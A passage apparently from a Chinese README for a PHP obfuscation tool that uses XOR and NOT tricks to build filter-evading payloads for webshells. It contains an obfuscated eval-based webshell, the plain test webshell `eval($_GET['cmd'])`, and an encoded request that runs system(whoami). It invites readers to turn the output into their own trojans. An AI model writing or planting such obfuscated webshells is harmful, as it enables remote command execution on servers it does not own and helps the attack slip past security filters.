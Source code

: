 同时你完全可以把它改成一个马~比如:

```php
$a=urldecode("%7B%7B%5C_")^urldecode("%24%3C%19%0B");
$b=${$a}{'0xff'};
eval("\t".$b);
```

## 使用注意

--- ---

A模式根据你的命令与参数生成完整的混淆参数，B模式单纯对某个字符串进行混淆

-- ---

长格式类似

```
('aaa'^'bbb')
```

短格式类似

```
('a'^'b').('b'^'c')
```

--- ---

取反必须为`not`和`~`

--- ---

由于全随机性异或选取（不可避免），会导致一定程度的错误生成；所以在你正式使用之前请务必本地测试效果后再用！

--- ---

选择下标从1开始

--- ---

最后，因为时间匆忙没有做完美的异常处理，一旦造成任何错误（比如只有18种但你输了20）请强制退出再重开-=-

## 示例

（具体改成什么样的马请发挥你的想象，嘿嘿）

还是这个测试马

```php
<?php
eval($_GET['cmd']);
?>
```

之前介绍了GET方法，假如要使用POST呢，比如要执行system(whoami)

生成这个

```
${("%5E%5E4-/"^"%01%0E%7B~%7B")}{%ff}(("7"|"%60").("%60"|"%08").("/"|"%60").("%21"|"%40").("%60"|"%0D").("%60"|"%09"));&%ff=system
```
